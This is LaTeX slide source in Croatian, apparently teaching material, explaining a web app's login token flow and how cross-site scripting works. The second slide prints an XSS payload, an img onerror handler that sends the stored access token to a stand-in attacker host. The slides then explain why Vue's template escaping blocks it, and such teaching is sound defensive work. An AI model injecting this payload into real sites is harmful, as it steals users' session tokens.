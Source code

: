 
\begin{frame}[fragile]{Odgovor na prijavu}
Prijava je jedan zahtjev s korisničkim imenom i lozinkom:

\begin{lstlisting}
POST /api/auth/login
{"username": "behemot@plreg.hr", "password": "..."}

{"access_token": "eyJhbGciOiJIUzI1NiIs...",
 "refresh_token": "eyJhbGciOiJIUzI1NiIs...",
 "token_type": "bearer"}
\end{lstlisting}

\vspace{0.3em}
Pristupni token (engl. \emph{access token}) ide uz svaki sljedeći zahtjev i vrijedi kratko, u ovom projektu petnaest minuta. Token za obnovu (engl. \emph{refresh token}) šalje se samo na \texttt{/auth/refresh}, vrijedi dulje, u ovom projektu sedam dana, i daje novi par.

\vspace{0.3em}
Tko je prijavljen, odgovor ne kaže. To vraća \texttt{GET /auth/me}, prema zapisu u bazi.
\end{frame}

\begin{frame}[fragile]{Napad koji uzima token}
Stranica koja tuđi tekst ugradi kao HTML dopušta da se uz njega izvede i skripta. Umjesto imena natjecatelja upisan je ovaj tekst:

\begin{lstlisting}[language=html]
<img src="x" onerror="fetch('https://napadac.example/?t='
  + localStorage.getItem('plreg.access_token'))">
\end{lstlisting}

\vspace{0.4em}
Ugrađen kao HTML, kod se izvodi u kartici korisnika, s izvorom aplikacije, pa vidi sve što vidi i aplikacija. Takav napad zove se XSS (engl. \emph{cross-site scripting}).

\vspace{0.4em}
Vue svaki izraz u predlošku, \texttt{\{\{ ... \}\}}, ispisuje kao tekst, pa ovakvo ime ostaje niz znakova. Direktiva \texttt{v-html} to zaobilazi i dolazi u obzir samo za sadržaj kojemu se vjeruje. Projekt je ne koristi.
\end{frame}

